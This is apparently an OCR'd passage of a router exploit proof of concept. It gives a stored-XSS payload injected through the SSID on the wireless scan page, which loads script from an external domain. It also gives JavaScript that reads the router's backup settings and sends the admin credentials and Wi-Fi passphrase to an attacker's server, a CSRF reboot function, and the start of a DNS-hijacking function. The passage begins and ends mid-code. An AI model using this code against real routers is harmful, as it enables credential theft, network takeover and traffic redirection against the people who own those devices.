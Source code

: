 					xmlhttp=new XMLHttpRequest();	
					xmlhttp.open("GET", "/wandnscfg.cmd?sessionKey="+sessionKey, false); // Aplicando as confs
					xmlhttp.send();
				}

### PoC

				// Vulnerable URL : https://your.rou.ter.ip/wlscanresults.html
				// XSS through SSID : '><script src=//6ks.me></script>   ( Exactly 32 bytes u_u )
				//                             ^
				//  5char domains are running  |    'src' does not requires quotes , and passing the URL with ony '//' 
				//  out, grab yours !          +---> it will cause the browser to make the request with the current protocol,
				//                                   which is HTTP , duh
				// Below is the content of 6ks.me
				// index.html ( which is just a JavaScript actually, but we have to use the index to fit the 32 chars ) :

				function get_passwords(attackers_server) {
					// attackers_server = server to send the credentials
					// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
					// XSS to get Admin's login/passwd + Wifi passphrase
					// from backup settings 

					xmlhttp=new XMLHttpRequest();
					xmlhttp.open("GET", "/backupsettings.cmd", false); // GET the Backup XML
					xmlhttp.send();
					var k = xmlhttp.responseText.indexOf("Admin") ; // Search for Admin's Login and Password
					var y = xmlhttp.responseText.indexOf("KeyPassphrase") ; // Search for Wifi PassPhrase
					// Add a img requesting the attacker website with the leaked passwords in the GET parameters
					document.write('<img src="'+attackers_server+'?net='+ encodeURIComponent(xmlhttp.responseText.slice(k,k+100)+xmlhttp.responseText.slice(y,y+80))+'">'); 
				}

				function reboot_router() {
					// XSS + CSRF reboot router
					// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
					// Why? Because It's fun to watch a XSS doing 'physical' stuff

					xmlhttp=new XMLHttpRequest();
					xmlhttp.open("GET", "/resetrouter.html", false); // GET the page of the reset interface
					xmlhttp.send();
					var w = xmlhttp.responseText.indexOf("Key") ; // Search for the SessionKey, some sort of CSRF Token
					var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex because the key is inside quotes

					xmlhttp=new XMLHttpRequest();
					xmlhttp.open("GET", "/rebootinfo.cgi?sessionKey="+sessionKey, false); // Request the reboot page with the CSRF token
					xmlhttp.send();
				}

				function dns_poisoning(attackers_dns) {
					// attackers_dns = malicious DNS Server
					// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ holy shit my code is ugly as fuck , sorry world
					// Alter the DNS Config of the Router
					// changing the Primary and Secondary DNS to the attacker's one
